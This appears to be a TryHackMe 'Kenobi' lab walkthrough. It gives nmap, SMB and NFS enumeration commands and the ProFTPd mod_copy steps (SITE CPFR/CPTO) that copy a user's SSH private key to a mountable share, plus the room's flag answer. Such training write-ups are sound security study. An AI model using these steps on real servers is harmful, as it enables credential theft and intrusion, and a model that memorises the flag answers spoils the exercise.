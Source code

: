 # Kenobi Wlakthrough
### Link
- https://tryhackme.com/room/kenobi
------------------------
### Task1 -  Deploy the vulnerable machine
- Scan the machine with nmap, how many ports are open?
    - sudo nmap -sV -sC -oN ./nmap_kenobi_result.txt [IP]
    - **Answer** : 7
    - pictures:<br>
                [Kenobi_1.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)<br>
                [Kenobi_2.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_2.png)
------------------------
### Task 2 - Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?
    - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [IP]
    - **Answer** : 3
    - pictures:<br>
                [Kenobi_3.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_3.png)
- Check Enonymous share
    - smbclient //[IP]/anonymous
    - Try without password
    - Once you're connected, list the files on the share. What is the file can you see?
    - **Answer** : log.txt
    - picture: [Kenobi_4.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_4.png)
- Download the file **log.txt**. We can use SMB to do this action (recursive)
    - smbget -R smb://[IP]/anonymous
    - picture: [Kenobi_5.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_5.png)
-  Port 111 is access to a network file system.
    - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
    - What mount can we see?
    - **Answer** : /var
    - picture: [Kenobi_6.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_6.png)
------------------------
### Task 3 - Gain initial access with ProFtpd
- What is the version?
    - Check the initial nmap scan.
    - **Answer** : 1.3.5
    - picture: [Kenobi_1.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)
- How many exploits are there for the ProFTPd running?
    - We can use searchsploit to find exploits for this particular version.
    - **Answer** : 3
    - picture: [Kenobi_8.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_8.png)
- One exploit is related to "mod copy". Check this link to understand more about [mod copy](http://www.proftpd.org/docs/contrib/mod_copy.html)
    - Connect to the machine by using **mod copy**
        - sudo nc [IP] [port]
        - SITE CPFR /home/kenobi/.ssh/id_rsa --> Copy the private key
        - SITE CPTO /var/tmp/id_rsa --> Paste to /var/tmp because var directory is reachable with Anonymous
        - picture: [Kenobi_9.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_9.png)
    - From the local machine
        - mkdir /mnt/kenobiNFS
        - mount machine_ip:/var /mnt/kenobiNFS
        - ls -la /mnt/kenobiNFS
        - We can see all directories & files under /var
        - - picture: [Kenobi_10.png](https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_10.png) 
    - Last steps :
        - Copy the private key and log to the machine through SSH with kenobi as username
        - Open /home/kenobi/user.txt
    - **Answer** : d0b0f3f53b6caa532a83915e19224899